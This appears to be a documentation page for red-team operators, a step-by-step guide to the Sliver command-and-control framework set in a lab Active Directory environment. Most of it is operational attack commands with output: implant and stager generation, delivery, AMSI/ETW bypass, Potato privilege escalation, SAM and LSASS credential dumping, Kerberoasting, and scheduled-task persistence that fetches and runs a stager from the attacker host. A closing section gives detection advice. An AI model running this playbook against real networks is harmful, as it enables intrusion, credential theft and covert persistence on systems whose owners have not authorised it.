



<!--
SEO
title:      Sliver C2 Guide: Implants, Beacons & Red Team Operations
slug:       /docs/tools/sliver
primary:    Sliver
related:    Sliver C2, Sliver guide, Sliver tutorial, Sliver beacon, Sliver implant,
            Sliver red teaming, Sliver execute-assembly, Sliver pivoting,
            Sliver multiplayer, Sliver armory
internal:   /docs/tools/, /docs/tools/ligolo-ng, /docs/redteam/
external:   https://github.com/BishopFox/sliver
            https://github.com/BishopFox/sliver/wiki
            https://attack.mitre.org/techniques/T1071/
-->

> **Scope:** Authorized red team / penetration testing. Maps to MITRE ATT&CK [T1071](https://attack.mitre.org/techniques/T1071/) (Application Layer Protocol) and [T1059](https://attack.mitre.org/techniques/T1059/) (Command and Scripting Interpreter). Covers Sliver v1.7+.

## Introduction

Sliver is an open-source command-and-control framework developed by BishopFox, written in Go. Its server, client, and implants cross-compile for Windows, Linux, and macOS. Unlike a single-process C2, Sliver splits the **server** (the listener that implants call back to and that operators connect to) from the **client** (the operator's console). This separation means a stray `Ctrl+C` in the client does not kill the server or drop callbacks, and multiple operators can collaborate on one server in **multiplayer mode**.

The core terminology: an **implant** is the compiled binary placed on the target. A **session** is an interactive, real-time connection (the implant holds the channel open). A **beacon** is an asynchronous, task-based connection (the implant checks in on an interval, pulls tasks, posts results, then sleeps). Sessions are for interactive work; beacons are for stealth and low-bandwidth links. A **listener** is a server-side service that waits for implant connections over a chosen protocol (mTLS, HTTP(S), DNS, WireGuard, or named-pipe pivots). The **armory** is Sliver's built-in library of precompiled .NET extensions (Seatbelt, Rubeus, SharpHound, etc.) installable with one command.

This guide covers the operational lifecycle: install → server/client → multiplayer → armory → listeners → implant generation → delivery → sessions vs beacons → post-exploitation → execute-assembly → file transfer → pivoting → privilege escalation → [credential dumping](/docs/redteam/credential-dumping/) → OPSEC → troubleshooting → teardown.

**Summary**

- Sliver = split server/client C2; implants in Go, cross-platform.
- Session = interactive; beacon = async task-based. Listener = the callback endpoint.
- Armory = one-command .NET extension installs. Covers full operator lifecycle.

---
## Architecture

Sliver splits into three pieces: a `sliver-client` console on the operator's workstation, a `sliver-server` process that owns the listeners, job manager and database, and the implants running on targets. The client talks to the server over gRPC on port 31337; implants connect back over whichever C2 channel the listener uses. Only the server needs to be reachable by both sides.



- **Server** (`sliver-server`): runs the listeners implants call back to, manages jobs/sessions/beacons, holds the operator DB and loot store. Prefix in CLI: `sliver-server`.
- **Client** (`sliver-client`): the operator's console; connects to the server over gRPC (default port 31337) and issues commands. Prefix: `sliver-client`.
- **Implant**: the compiled Go binary placed on the target; it dials a listener and becomes a session or beacon.

**Summary**

- Server (listeners/DB) + client (operator console) over gRPC :31337.
- CLI prefixes `sliver-server` vs `sliver-client` distinguish the two.

---

## Lab Environment

A two-host Active Directory lab. The attacker runs the server/client on Kali; one Windows host (WEB01) is internet-exposed via a vulnerable web app; the second (DC01) is internal.



| Host | OS | Network | Role |
|------|-----|---------|------|
| Kali | Linux | 10.10.14.62 | Attacker, sliver-server + client |
| WEB01 | Windows Server 2016 | 10.129.205.234 (public) | Foothold, IIS web app with unrestricted upload |
| DC01 | Windows Server | 172.16.1.15 (internal) | Domain controller, child.htb.local |


Swap these IPs for your own lab. Commands below use this scheme so you can copy-paste and adapt.


**Summary**

- Kali runs server + client; WEB01 is the public foothold; DC01 is the internal goal.

---

## Installing Sliver

Two install paths: the **one-liner** (simplest, builds from source) or **prebuilt release binaries** (recommended for a fixed version). Pin a version for reproducible engagements.

### Option 1: One-liner (builds from source)

```bash
curl https://sliver.sh/install|sudo bash
```

Installs both server and client to `/usr/local/bin/`. Requires Go toolchain; the script handles it. Good for a quick start, but you get whatever the script builds.

### Option 2: Prebuilt binaries (recommended)

```bash
# Create a tools directory.
mkdir -p ~/tools/sliver

# Download the server and client for Linux amd64 (pin a tag, e.g. v1.7.3).
wget -q https://github.com/BishopFox/sliver/releases/download/v1.7.3/sliver-server_linux -O ~/tools/sliver/sliver-server
wget -q https://github.com/BishopFox/sliver/releases/download/v1.7.3/sliver-client_linux -O ~/tools/sliver/sliver-client

# Make both executable.
chmod +x ~/tools/sliver/sliver-server ~/tools/sliver/sliver-client

# Start the server (first run unpacks assets; can take a few minutes).
~/tools/sliver/sliver-server
```

`-q` silences wget progress. `-O` sets the output filename. First server startup unpacks compiled assets and the armory index — be patient. The server prompt is prefixed `[server] sliver >`.

[Screenshot: sliver-server first-run unpacking assets]


Pin a release tag (e.g. `v1.7.3`) rather than `latest` for reproducible engagement behavior.


**Summary**

- One-liner (`curl ...|sudo bash`) builds from source; prebuilt binaries pin a version.
- First server startup unpacks assets — allow a few minutes.

---

## Multiplayer Mode

Multiplayer lets several operators connect to one server. Without it enabled, no client can join. The flow: enable multiplayer on the server, generate an operator config, import it into each client.

```bash
# 1. On the server: enable multiplayer mode.
[server] sliver > multiplayer
[*] Multiplayer mode enabled!

# 2. Create an operator config (name + the server's listen IP).
[server] sliver > new-operator -n alice -l 10.10.14.62
[*] Generating new client certificate, please wait ...
[*] Saved new client config to: /home/kali/alice_10.10.14.62.cfg
```

`multiplayer` flips the server into multi-operator mode. `new-operator -n <name> -l <server-ip>` mints a client certificate and writes a `.cfg` the operator imports into their client.

On each operator's machine, import the config and launch the client:

```bash
# Import the operator config.
./sliver-client import alice_10.10.14.62.cfg

# Connect.
./sliver-client
```

Expected client banner:

``` {linenos=inline}
Connecting to 10.10.14.62:31337 ...
[*] Server v1.7.3 - <hash>
[*] Welcome to the sliver shell, please type 'help' for options
sliver >
```

[Screenshot: Multiplayer enabled and operator joined]


Without `multiplayer` enabled on the server, clients cannot connect. If a client hangs at "Connecting to...", verify multiplayer is on and the operator config's IP matches a reachable server interface.


**Summary**

- `multiplayer` enables multi-operator; `new-operator` mints a client `.cfg`.
- Import with `sliver-client import <file>`, then launch the client.

---

## The Armory

The armory is Sliver's library of precompiled .NET extensions (BOFs and assemblies) installable with one command. It minimizes your footprint by keeping tools server-side and injecting them on demand.

```bash
# List/search available extensions.
sliver > armory
sliver > armory search seatbelt

# Install a single extension.
sliver > armory install seatbelt
[*] Installing alias 'Seatbelt' (v0.0.4) ... done!

# Install all extensions (use the `all` argument).
sliver > armory install all
```

`armory` with no subcommand lists every available package, version, and type. `armory search <regex>` filters by name. `armory install <name>` downloads and registers an alias/extension so it appears as a top-level command (e.g. `seatbelt`, `rubeus`, `sharphound`). `armory install all` installs the whole library.

Common extensions used in this guide: `seatbelt` (host enumeration), `rubeus` ([Kerberos](/docs/kerberos/) attacks), `sharphound-4` (BloodHound collection), `sharpup` (privesc checks), `certify` (ADCS enumeration), `nanodump` (LSASS), `bof-roast` (kerberoasting BOF), `c2tc-domaininfo` (domain info BOF).

[Screenshot: armory install seatbelt output]


Installed extensions appear as top-level commands. Run `<cmd> --help` to see their args — e.g. `seatbelt --help`.


**Summary**

- `armory install <name>` registers a .NET extension as a top-level command.
- `armory install all` grabs the whole library; `armory search` filters by name.

---

## Listeners

A listener is a server-side service that waits for implant connections. You must start a listener matching the implant's C2 protocol before any callback arrives. Listeners are tracked as **jobs**.

```bash
# Start an HTTP listener on a custom port.
sliver > http --lport 8088
[*] Starting HTTP :8088 listener ...
[*] Successfully started job #2

# List running listeners.
sliver > jobs
ID   Name     Protocol   Port    Stage Profile
===  ======   ========  ======   ============
1    grpc      tcp       31337
2    http      tcp       8088
```

`http --lport 8088` starts an HTTP listener on port 8088 (job #2). The default `grpc` job on 31337 is the operator connection — do not stop it. `jobs` shows every active listener with its ID, protocol, and port.

### Listener protocols

| Command | Protocol | Use case |
|---------|----------|----------|
| `mtls` | mutual TLS over TCP | Encrypted, reliable; good default for interactive sessions |
| `http` / `https` | HTTP(S) | Egress-friendly; blends with web traffic; supports beacons |
| `dns` | DNS | Restrictive egress; slow; good for beacons |
| `wg` | WireGuard | Encrypted UDP; fast; needs UDP egress |
| `stage-listener` | TCP/HTTP stager | Serves a staged payload to a stager |
| `pivots named-pipe` | SMB named pipe | Windows pivot listener for chained implants |

```bash
# mTLS listener (default port 8888).
sliver > mtls --lhost 10.10.14.62 --lport 8888

# HTTPS listener with a domain.
sliver > https --lhost 10.10.14.62 --lport 443 --domain updates.example.com

# DNS listener.
sliver > dns --lhost 10.10.14.62 --domains c2.example.com

# WireGuard listener.
sliver > wg --lhost 10.10.14.62 --lport 51820
```


For HTTP(S) OPSEC, edit `~/.sliver/configs/http-c2.json` to customize URL paths, filenames, and request/response headers so traffic blends with the target's normal web patterns.


[Screenshot: jobs listing multiple listeners]

**Summary**

- Start a listener matching the implant's protocol before delivery.
- `jobs` lists active listeners; the default gRPC job on 31337 is the operator link.
- Protocols: mTLS, HTTP(S), DNS, WireGuard, staged, named-pipe pivots.

---
## Implant Generation

`generate` compiles an implant binary configured for a specific listener, OS/arch, and C2 protocol. There are two flavors: a **session** implant (real-time) and a **beacon** implant (async). You can generate one-off or save a reusable **profile**.

### Session implant (interactive)

```bash
# Generate a Windows amd64 session implant calling back over mTLS.
sliver > generate --mtls 10.10.14.62:8888 --os windows --arch amd64 -N win_session
[*] Generating new windows/amd64 implant binary
[*] Build completed in 42s
[*] Implant saved to /home/kali/win_session.exe
```

`--mtls <host>:<port>` sets the mTLS callback endpoint. `--os windows --arch amd64` targets Windows x64. `-N win_session` names the implant (shows in `sessions`). The binary is written to the current directory.

### Beacon implant (async)

```bash
# Generate an HTTP beacon with a 60s interval and 30s jitter.
sliver > generate beacon --http 10.10.14.62:8088 --seconds 60 --jitter 30 -N http-beacon --skip-symbols
[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Build completed in 3s
[*] Implant saved to /home/kali/http-beacon.exe
```

`beacon` switches to async mode. `--http <host>:<port>` sets the HTTP callback. `--seconds 60 --jitter 30` means the beacon sleeps 60s ± 30s between check-ins. `-N http-beacon` names it. `--skip-symbols` speeds the build by skipping Go symbol obfuscation (faster, slightly noisier).

### Profiles (reusable configurations)

A **profile** is a saved implant blueprint you regenerate from, so you don't retype flags each time.

```bash
# Create a profile for an HTTP beacon in shellcode format.
sliver > profiles new --http 10.10.14.62:8088 --format shellcode htb
[*] Saved new implant profile htb

# List profiles.
sliver > profiles

# Generate an implant from the profile.
sliver > profiles generate --name htb -N staged
```

`profiles new --http ... --format shellcode htb` saves a profile named `htb` that builds shellcode-format output. `--format shellcode` produces raw [shellcode](/docs/applocker/process-injection/) (for stagers) instead of an EXE. `profiles generate --name htb` compiles an implant from that profile.

### Stagers (for size-constrained delivery)

When you can only deliver a small payload (e.g. a web shell with a file-size limit), use a **stager**: a tiny first-stage that pulls the full implant from a Sliver stage-listener.

```bash
# 1. Create a profile that builds shellcode (the full implant).
sliver > profiles new --http 10.10.14.62:8443 --format shellcode win_stage

# 2. Start a stage-listener serving that profile over HTTP.
sliver > stage-listener --url http://10.10.14.62:8443 --profile win_stage

# 3. Generate a stager (MSF-compatible) that pulls from the stage-listener.
sliver > generate stager --http 10.10.14.62:8443 --arch amd64 --os windows -o /home/kali/stager.bin
```

`stage-listener --url ... --profile <name>` serves the profile's shellcode at the URL. `generate stager --http <url>` builds a small stager binary (supports the Meterpreter staging protocol over TCP/HTTP(S)) that fetches and executes the shellcode in memory. Embed `stager.bin` in a document, macro, or web-upload payload.

[Screenshot: generate session and beacon implants]


Staged payloads leave the full implant in memory only, but the stage-listener URL is a static artifact. Defenders who find the stager can replay the URL. Rotate stage-listener URLs between engagements.


**Summary**

- `generate` = session (interactive); `generate beacon` = async with interval/jitter.
- `profiles new` saves a reusable blueprint; `profiles generate` compiles from it.
- `stage-listener` + `generate stager` enable size-constrained in-memory delivery.

---

## Delivering the Implant

How the binary reaches the target depends on your foothold. Common paths:

```bash
# 1. Web app upload — drop the EXE (or a web-shell that fetches the stager).
#    e.g. upload http-beacon.exe to an IIS /uploads/ path, then request it.

# 2. Over an existing session — upload from within Sliver.
sliver (http-session) > upload /home/kali/http-beacon.exe C:\\Temp\\http-beacon.exe
[*] Wrote file to C:\Temp\http-beacon.exe

# 3. Serve the implant over a quick HTTP server and pull it from the target.
# On the attacker:
python3 -m http.server 8081
# On the target (via web shell or RCE):
powershell -c "iwr http://10.10.14.62:8081/http-beacon.exe -outfile C:\Temp\http-beacon.exe"
```

Pick the path that matches the access you have. A web-app file upload is the most common foothold delivery; `upload` over an existing session is for lateral movement.

[Screenshot: Implant uploaded via web app and requested]

**Summary**

- Deliver via web-upload, `upload` over a session, or a staged pull.
- Match the delivery method to the access you already have.

---

## Sessions vs Beacons

The distinction drives how you interact with the implant.

| Property | Session | Beacon |
|----------|---------|--------|
| Connection | Real-time, holds the channel open | Async, checks in on an interval |
| Interaction | Immediate command output | Tasks queued; results posted on next check-in |
| Use case | Interactive work, pivots, RDP | Stealth, low-bandwidth, long-dwell |
| Switch | `interactive` (beacon → session) | `use <beacon-id>` |
| OPSEC | More visible (long-lived connection) | Low-churn, blends with scheduled traffic |

### Using a session

```bash
sliver > sessions                          # list sessions
sliver > use <session-id>                 # switch to a session
sliver (http-session) > info                 # session details
sliver (http-session) > whoami
sliver (http-session) > ls C:\\Users
```

### Using a beacon

```bash
sliver > beacons                           # list beacons
sliver > use <beacon-id>                  # switch to a beacon
sliver (http-beacon) > info                 # beacon details
sliver (http-beacon) > ls C:\\Users          # task queued; result on next check-in
```

### Converting a beacon to a session

```bash
# From within a beacon context, upgrade to an interactive session.
sliver (http-beacon) > interactive
[*] Using beacon's active C2 endpoint: https://10.10.14.62:9001
[*] Tasked beacon http-beacon (<task-id>)
[*] Session <session-id> http-beacon - 10.129.205.234:49731 (web01) windows/amd64
```

`interactive` tasks the beacon to open a real-time session on its active C2 endpoint. Useful when you need immediate output for interactive commands, then you can drop back to the beacon to reduce footprint.

[Screenshot: sessions and beacons listings]

**Summary**

- Sessions = interactive/real-time; beacons = async/tasked on an interval.
- `interactive` upgrades a beacon to a session; `use <id>` switches context.

---

## Post-Exploitation Basics

Once you have a session or beacon, standard host interaction mirrors a shell.

```bash
sliver (http-session) > pwd
sliver (http-session) > cd C:\\Users
sliver (http-session) > ls
sliver (http-session) > whoami
sliver (http-session) > getuid
sliver (http-session) > ps -e lsass        # find a process by name
sliver (http-session) > execute whoami       # run a native binary, capture output
sliver (http-session) > shell               # drop into an interactive shell (sessions)
```

`pwd`/`cd`/`ls` operate on the remote working directory. `whoami`/`getuid` show the implant's user context. `ps -e <name>` finds a process by name (useful before `procdump` or `migrate`). `execute <bin>` runs a native binary and returns output (`-o` forces output capture). `shell` opens an interactive shell on a session (not beacons).

[Screenshot: basic post-exploitation commands]

**Summary**

- `pwd/cd/ls/whoami/getuid/ps/execute/shell` mirror shell interaction.
- `execute -o <bin>` runs a native binary and captures output.

---
## execute-assembly & .NET Tooling

`execute-assembly` runs a .NET assembly in-memory on the target via a sacrificial process (default `notepad.exe`). This is the primary way to run armory tools and custom C# binaries without dropping them to disk.

```bash
# Run Seatbelt with host enumeration checks.
sliver (http-beacon) > execute-assembly /home/kali/Seatbelt.exe -group=all -t 240
[*] Output:
=== Seatbelt: Running All Checks ===
[SNP] AppLocker bypass-able paths ...
[*] AppIDSvc service is Running

# Run SharpUp for privesc checks.
sliver (http-beacon) > sharpup audit
[*] sharpup output:
=== SharpUp: Running Privilege Escalation Checks ===
=== Abusable Token Privileges ===
SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
```

`execute-assembly <path> <args>` loads the assembly from your local machine and injects it in-memory on the target. `-t 240` raises the timeout (seconds) for long-running assemblies. Installed armory aliases (`seatbelt`, `sharpup`, `rubeus`, etc.) are shorthand for `execute-assembly` of the cached binary, with Sliver's built-in [AMSI](/docs/redteam/bypass-amsi/)/ETW bypass applied.

### AMSI/ETW bypass flags

```bash
# -i in-process (no sacrificial process), -E bypass ETW, -M bypass AMSI.
sliver (http-beacon) > execute-assembly /home/kali/SharpView.exe "Get-DomainUser -PreauthNotRequired" -t 240 -i -E -M
```

`-i` runs in-process (faster, riskier if the assembly crashes the implant). `-E` bypasses ETW before the assembly runs. `-M` bypasses AMSI. Useful for assemblies that AMSI would otherwise flag.


`execute-assembly` spawns a sacrificial process (`notepad.exe` by default). Change it with `--process <exe>` to blend with the target's process list. There is a ~254-character limit on assembly command lines.


[Screenshot: execute-assembly Seatbelt output]

**Summary**

- `execute-assembly <path> <args>` runs a .NET assembly in-memory via a sacrificial process.
- Armory aliases are shorthand with built-in AMSI/ETW bypass; `-i -E -M` tune execution.

---

## File Transfer

Sliver has built-in `upload` and `download` for moving files between the operator and the implant.

### Upload (operator → target)

```bash
sliver (http-session) > upload /home/kali/academy.txt C:\\Users\\eric\\Desktop\\academy.txt
[*] Wrote file to C:\Users\eric\Desktop\academy.txt
```

`upload <local> <remote>` copies a local file to the remote path. On Windows, escape backslashes (`C:\\Users\\...`) or use forward slashes.

### Download (target → operator)

```bash
# Download a single file.
sliver (http-session) > download C:\\Users\\eric\\Desktop\\secret.txt

# Download a directory (compressed to .tar.gz).
sliver (http-session) > download -r C:\\Users\\eric\\Pictures
[*] Wrote 291 bytes (1 file successfully, 0 files unsuccessfully) to ./http-session_download_Pictures_1711090807.tar.gz
```

`download <remote> [local]` pulls a file. `-r` (`--recurse`) downloads a directory, compressed into a `.tar.gz`. `-X` (`--loot`) saves the download to the server's loot store instead of the operator's disk; `-n <name>` names the loot entry. Filters (`*`, `?`, `[a-c]`) restrict which files match.

[Screenshot: upload and download commands]

**Summary**

- `upload <local> <remote>`; escape Windows backslashes or use forward slashes.
- `download -r <dir>` pulls a directory as `.tar.gz`; `--loot` stores it server-side.

---

## Pivoting with Sliver

When the target can't reach your server directly, chain implants. Sliver supports **named-pipe pivots** on Windows: a pivot listener on Host A accepts an inbound connection from Host B over SMB, and the traffic rides the existing C2 channel back to your server.



```bash
# 1. On WEB01 (an established session): start a named-pipe pivot listener.
sliver (http-session) > pivots named-pipe --bind academy
[*] Started named pipe pivot listener \\.\pipe\academy with id 1

# 2. Generate an implant that connects to that pipe.
sliver > generate --named-pipe 127.0.0.1/pipe/academy -N pipe_dc01 --skip-symbols
[*] Generating new windows/amd64 implant binary
[*] Implant saved to /home/kali/pipe_dc01.exe

# 3. Move pipe_dc01.exe to DC01 (via upload over the WEB01 session + SMB, or a share).
# 4. Execute it on DC01; it connects to WEB01's pipe, which forwards to your server.
```

`pivots named-pipe --bind <name>` starts a pivot listener on the active session's host, bound to `\\.\pipe\<name>`. `generate --named-pipe <ip>/pipe/<name>` builds an implant that connects to that pipe. This is effectively a bind-shell chain: Host B connects to Host A, and Host A relays to the server. Use it in environments where direct egress from Host B is blocked but SMB between hosts is allowed.

[Screenshot: pivot listener started and pipe implant generated]


Named-pipe pivots are Windows-only. For Linux pivots, pair Sliver with a Layer 3 tunnel tool like [Ligolo-ng](/docs/tools/ligolo-ng) to reach internal subnets.


**Summary**

- `pivots named-pipe --bind <name>` starts a Windows SMB pivot listener on a session host.
- `generate --named-pipe` builds an implant that dials that pipe; chain implants through it.

---

## Privilege Escalation

Once on a host, enumerate for privesc paths. The armory's `sharpup` and `seatbelt` are the workhorses.

```bash
# SharpUp: check for abusable privileges, modifiable services, etc.
sliver (http-beacon) > sharpup audit
[*] === Abusable Token Privileges ===
SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
```

`SeImpersonatePrivilege` on a service account (common for IIS) is the classic Potato-family trigger. Run a Potato exploit (GodPotato, PrintSpoofer, etc.) via `execute-assembly` to get SYSTEM.

### GodPotato via execute-assembly

```bash
sliver (http-beacon) > execute-assembly /home/kali/GodPotato-NET4.exe -cmd "whoami"
[*] Output:
[*] CurrentUser: NT AUTHORITY\SYSTEM
nt authority\system
```

### getsystem (requires a session and admin)

```bash
# Upgrade a beacon to a session, then getsystem.
sliver (http-beacon-9001) > interactive
sliver (http-beacon-9001) > use <session-id>
sliver (http-beacon-9001) > getsystem
[*] A new SYSTEM session should pop soon...
[*] Beacon <new-id> http-beacon-9001 - 10.129.205.234 (web01) windows/amd64
sliver (http-beacon-9001) > use <new-id>
sliver (http-beacon-9001) > info
Username: NT AUTHORITY\SYSTEM
```

`getsystem` attempts to impersonate SYSTEM (requires the implant running as an admin and an interactive session). It returns a new SYSTEM beacon/session.

[Screenshot: getsystem producing a SYSTEM session]

**Summary**

- `sharpup audit` finds privesc paths; `SeImpersonatePrivilege` → Potato exploits via `execute-assembly`.
- `getsystem` (session + admin) returns a SYSTEM session.

---

## Credential Dumping

With a SYSTEM session, dump local and domain credentials.

### hashdump (local SAM)

```bash
# Must be run from a NT AUTHORITY\SYSTEM beacon/session.
sliver (http-beacon-9001) > hashdump
[*] Got output:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e368973bdcf9dd5219882fdf0777ff0b:::::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::::
```

`hashdump` reads the local SAM database and returns NTLM hashes (pass-the-hash ready). Requires SYSTEM.

### procdump + pypykatz (LSASS)

```bash
# 1. Find the LSASS PID.
sliver (http-beacon) > ps -e lsass
Pid   Ppid   Owner                Arch     Executable
===   ====   ==================   ======== ============
660   524    NT AUTHORITY\SYSTEM  x86_64  lsass.exe

# 2. Dump the process to your operator machine.
sliver (http-beacon) > procdump --pid 660 --save /tmp/lsass.dmp
[*] Process dump stored in: /tmp/lsass.dmp

# 3. Parse the dump offline with pypykatz (on the attacker).
pypykatz lsa minidump /tmp/lsass.dmp
== LogonSession ==
username: eric   domainname: CHILD   logon_server: DC01
== MSV ==
Username: eric   Domain: CHILD   NT: <hash>
```

`ps -e lsass` finds the LSASS process by name. `procdump --pid <pid> --save <path>` dumps it to the operator's disk (the dump does not touch the target's disk). `pypykatz lsa minidump` parses the dump offline for credentials, Kerberos tickets, and NT hashes.


Dumping LSASS is high-signal to [EDR](/docs/redteam/defender-bypass/) (process memory read of `lsass.exe`). Prefer the armory's `nanodump` BOF for a lighter footprint, and operate from a SYSTEM session.


[Screenshot: hashdump and procdump output]

**Summary**

- `hashdump` (SYSTEM) → local SAM NTLM hashes.
- `ps -e lsass` → `procdump --save` → `pypykatz lsa minidump` → LSASS credentials.

---

## Lateral Movement & AD Enumeration

With credentials or a SYSTEM session on one host, enumerate the domain and move laterally.

### Domain enumeration with SharpView / BOFs

```bash
# SharpView: enumerate users (AMSI/ETW bypassed).
sliver (http-beacon) > execute-assembly /home/kali/SharpView.exe "Get-DomainUser -PreauthNotRequired" -t 240 -i -E -M
[*] samaccountname  description
    bob             User who can manage srv02 via WinRM
    carrot          I am the king!

# BOF: c2tc-domaininfo (Outflank port, lightweight).
sliver (http-beacon) > c2tc-domaininfo
[+] DomainName: child.htb.local
[+] DnsForestName: htb.local
[+] DomainControllerName (PDC): \\dc01.child.htb.local
```

`Get-DomainUser -PreauthNotRequired` finds accounts with Kerberos pre-auth disabled ([AS-REP roasting](/docs/kerberos/asreproast/) targets). `c2tc-domaininfo` is a BOF (Beacon Object File) — runs in-process inside the implant's host process, no new process spawned, very low footprint.

### Kerberoasting with Rubeus

```bash
sliver (http-beacon) > rubeus kerberoast
[*] rubeus output:
[*] TicketByteHex: <KRBTGT-encrypted ticket>
```

`rubeus kerberoast` requests TGS tickets for SPN-backed accounts; the encrypted tickets can be cracked offline for the account's password.

### ADCS enumeration with Certify

```bash
sliver (http-beacon) > certify find
[*] Action: Find certificate templates
[*] Template Name: Abuse
    msPKI-Certificate-Name-Flag: ENROLLEE_SUPPLIES_SUBJECT
```

`certify find` enumerates certificate templates; `ENROLLEE_SUPPLIES_SUBJECT` + low-priv enrollment rights flag an ESC1-style misconfiguration that can lead to Domain Admin.

### BloodHound collection with SharpHound

```bash
sliver (http-beacon) > sharphound-4 -- -c All
[*] sharphound output:
[*] Collection complete. Output: C:\\Windows\\Temp\\20240322072034_BloodHound.zip
sliver (http-beacon) > download C:\\Windows\\Temp\\20240322072034_BloodHound.zip
```

`sharphound-4 -- -c All` runs a BloodHound collection (all collection methods) and writes a zip to the target. `download` pulls it to the operator for ingestion into BloodHound.

[Screenshot: SharpView and Certify enumeration]

**Summary**

- `SharpView`/`c2tc-domaininfo` enumerate users and domain structure (BOFs = low footprint).
- `rubeus kerberoast`, `certify find`, `sharphound-4` cover Kerberos, ADCS, and graph-based paths.

---
## Persistence

Persistence keeps a foothold if the initial implant dies. Common Sliver-friendly techniques:

### Scheduled task (via execute)

```bash
# Create a scheduled task that pulls and runs a stager every 30 minutes.
sliver (http-beacon) > execute -o cmd.exe /c "schtasks /create /tn Update /sc minute /mo 30 /tr \"powershell -w hidden -c iwr http://10.10.14.62:8443/stager -outfile C:\\Windows\\Temp\\s.exe && C:\\Windows\\Temp\\s.exe\" /ru SYSTEM"
```
`execute -o cmd.exe /c "..."` runs a native command and captures output. The `schtasks` line creates a SYSTEM task that re-fetches and executes a stager on an interval. Point the stager URL at your stage-listener so the full implant reloads in memory.

### SharPersist (armory)

```bash
sliver (http-beacon) > execute-assembly /home/kali/SharPersist.exe -t schtask -c "powershell.exe" -a "-w hidden -c iwr http://10.10.14.62:8443/stager" -n "SysHelper" -m "ADD"
```

`SharPersist` wraps multiple persistence primitives (scheduled tasks, registry run keys, startup folder, WMI events) behind one CLI.


Persistence techniques are high-signal and long-lived. Only establish what you need for the engagement window, and document every artifact for clean removal in reporting.


**Summary**

- `execute` + `schtasks` or `SharPersist` establish periodic re-execution of a stager.
- Document every persistence artifact for teardown and reporting.

---

## OPSEC & Detection Considerations

Sliver is designed to be flexible, not invisible. Know the signals you leave.

### Network-side

- **Long-lived mTLS sessions** to a non-standard port (8888) are anomalous. Prefer HTTP(S) on 443/80 to blend, and tune `http-c2.json` (URL paths, filenames, headers) to mimic legitimate traffic.
- **Beacon check-in patterns** are periodic and low-churn — a cadence a trained SIEM can spot. Vary interval/jitter; avoid tight fixed intervals.
- **DNS C2** produces regular queries to one domain — detectable via DNS analytics. Use sparingly.
- **Stage-listener URLs** are static; a defender who recovers a stager can replay the URL and fetch the full payload.

### Endpoint-side

- **Sacrificial processes** from `execute-assembly` (default `notepad.exe`) spawning .NET CLR loading is a strong EDR signal. Change `--process` to a plausible host binary.
- **LSASS access** (`procdump`, `nanodump`) is high-signal. Operate from SYSTEM, prefer BOFs, and expect EDR alerts.
- **Implant binary** is an unsigned Go executable not in any software inventory. Application whitelisting ([AppLocker](/docs/applocker/)/WDAC) blocks it.
- **Cleartext C2 profiles**: default HTTP(S) profile URLs/filenames are documented and fingerprintable. Customize per engagement.

### SIEM correlation

- Baseline user/service behavior; alert on service accounts making outbound TLS to unknown IPs.
- Correlate process execution ([Sysmon](/docs/blueteam/lolbins-hunting/) Event ID 1/3) with network flows — a `notepad.exe` making outbound HTTPS is a classic pivot signal.
- Stream auth logs; `getsystem`, token impersonation, and lateral WinRM all leave audit trails.


From the operator's side, these same signals are your OPSEC checklist: customize `http-c2.json`, vary beacon timing, rotate stage-listener URLs, and change `execute-assembly --process`.


**Summary**

- Network: tune HTTP(S) profiles; vary beacon timing; rotate stage URLs.
- Endpoint: change the sacrificial process; expect LSASS alerts; customize C2 profiles.
- SIEM: correlate process execution with outbound TLS to unknown IPs.

---

## Troubleshooting

| Symptom | Likely cause | Fix |
|---------|-------------|-----|
| Client hangs at "Connecting to..." | Multiplayer not enabled, or wrong server IP in config | `multiplayer` on server; verify operator `.cfg` IP matches a reachable interface |
| No callback after executing implant | No matching listener, or implant points at wrong host/port | Start a listener for the implant's protocol; check `--mtls/--http` target |
| Beacon tasks never complete | Interval too long, or C2 blocked | Lower `--seconds`; verify egress; try HTTPS on 443 |
| `execute-assembly` shows no output | Assembly crashed the sacrificial process | Add `-t 240`; run without `-i`; check assembly arch matches implant |
| `getsystem` fails | Not running as admin, or no interactive session | Run as admin; `interactive` to a session first |
| `hashdump` errors | Not SYSTEM | `getsystem` first, then `hashdump` |
| Implant AV-killed on drop | Unsigned Go binary flagged | Use a stager + in-memory load; obfuscate; consider a custom loader |
| Build takes very long | Symbol obfuscation | `--skip-symbols` for faster builds (slightly noisier) |
| `upload` to Windows path fails | Unescaped backslashes | Use `C:\\Users\\...` or forward slashes |
| Stage-listener URL 404s | Profile not built, or listener stopped | Rebuild profile; restart `stage-listener` |

### Detailed fixes

**No callback.** Confirm with `jobs` that a listener for the implant's protocol is running on the host/port the implant was compiled for. mTLS implant needs an `mtls` listener; HTTP beacon needs an `http`/`https` listener. A mismatch = silent failure.

